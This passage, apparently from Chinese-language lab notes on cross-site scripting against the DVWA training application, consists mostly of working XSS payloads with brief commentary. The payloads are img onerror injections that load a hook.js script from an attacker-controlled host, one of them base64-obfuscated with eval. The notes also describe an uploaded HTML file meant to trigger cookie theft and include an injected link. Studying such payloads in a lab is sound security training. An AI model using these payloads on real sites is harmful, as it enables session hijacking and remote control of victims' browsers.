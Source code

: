 所以通过攻击的演示，那么我们可以发现并不止于script的利用方式。

```
1 dvwa低级别：
<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://192.168.0.231:3000/hook.js';>


2 dvwa低级别：
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwOi8vMTkyLjE2OC4wLjIzMTozMDAwL2hvb2suanMn'))>

3 dvwa低级别：
python3 -m http.server 8000


<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://192.168.0.231:3000/hook.js';>
<body>
	test
</body>

python3 -m http.server

通过文件上传浏览页面触发cookie窃取


</div><br /><li> <a href="http://book.fsec.io/" target="_blank">点我链接给你好看</a></li>


```

实验中，针对高级别的payload存在不完善地方。

```
</div><br /><li> <a href="http://book.fsec.io/" target="_blank">点我链接给你好看</a></li>
```

<img src="../../images/image-20220831180720861.png" alt="image-20220831180720861" style="zoom:50%;" />


